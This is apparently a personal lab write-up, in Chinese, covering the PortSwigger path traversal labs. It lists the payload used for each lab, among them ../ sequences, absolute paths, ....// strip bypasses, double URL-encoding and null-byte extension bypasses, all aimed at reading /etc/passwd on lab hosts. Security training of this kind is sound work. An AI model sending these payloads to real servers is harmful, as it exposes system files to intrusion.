```yaml
---
title: Path traversal
description: Path traversal
last_update:
  date: "2025-09-11T08:00:00+08:00"
---
```


## Lab: File path traversal, simple case

| Dimension | Description                                                                                         |
| --------- | --------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/file-path-traversal#reading-arbitrary-files-via-path-traversal |
| Lab       | https://portswigger.net/web-security/file-path-traversal/lab-simple                                 |

https://0ac500190350f9c38193bb9d002c00e0.web-security-academy.net/image?filename=../../../etc/passwd

## Lab: File path traversal, traversal sequences blocked with absolute path bypass

| Dimension | Description                                                                                                            |
| --------- | ---------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/file-path-traversal#common-obstacles-to-exploiting-path-traversal-vulnerabilities |
| Lab       | https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass                                      |

https://0a3d002f047dcfbe8067306900890009.web-security-academy.net/image?filename=/etc/passwd

## Lab: File path traversal, traversal sequences stripped non-recursively

| Dimension | Description                                                                                                            |
| --------- | ---------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/file-path-traversal#common-obstacles-to-exploiting-path-traversal-vulnerabilities |
| Lab       | https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively                        |

假設後端有以下邏輯

```js
path.replaceAll("../", "");
```

那我們可以構造

```
....//
```

結果是

```js
"....//".replaceAll("../", "") => "../"
```

簡單來說，就是利用後端過濾 traversal sequences 的漏洞來達成 Path Traversal，但不同程式語言轉義反斜線 `\` 的方式不一樣，所以要多嘗試(?)

https://0aab00f703a0e8418241bac5006000f6.web-security-academy.net/image?filename=....//....//....//etc/passwd

一次成功，這個 Bypass 技巧我之前都沒想過，算是有學到新的技巧，讚讚

## Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

| Dimension | Description                                                                                                            |
| --------- | ---------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/file-path-traversal#common-obstacles-to-exploiting-path-traversal-vulnerabilities |
| Lab       | https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode                                    |

1.

```
../../../etc/passwd
..%2F..%2F..%2Fetc%2Fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

`"No such file"`

2. double encode `%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd`

## Lab: File path traversal, validation of start of path

| Dimension | Description                                                                                                            |
| --------- | ---------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/file-path-traversal#common-obstacles-to-exploiting-path-traversal-vulnerabilities |
| Lab       | https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path                                    |

`/var/www/images/../../../etc/passwd`

## Lab: File path traversal, validation of file extension with null byte bypass

| Dimension | Description                                                                                                            |
| --------- | ---------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/file-path-traversal#common-obstacles-to-exploiting-path-traversal-vulnerabilities |
| Lab       | https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass                  |

null byte

```js
// Hexadecimal escape sequence
const nullByte1 = "\x00";

// Unicode escape sequence
const nullByte2 = "\u0000";

// Character code
const nullByte3 = String.fromCharCode(0);

// 驗證它們都相同
console.log(nullByte1 === nullByte2); // true
console.log(nullByte1 === nullByte3); // true
console.log(nullByte1.charCodeAt(0)); // 0

// Encode Null Byte
encodeURIComponent(String.fromCharCode(0)); // %00
```

`../../../etc/passwd%00.jpg`

## 小結

Path Traversal 的 Labs 一下子就沒了，但有學到一些新的技巧，算是有收穫，這個系列的 Labs 沒有 Expert 等級的，可能是因為 Path Traversal 比較單純（？

## 參考資料

- https://portswigger.net/web-security/file-path-traversal
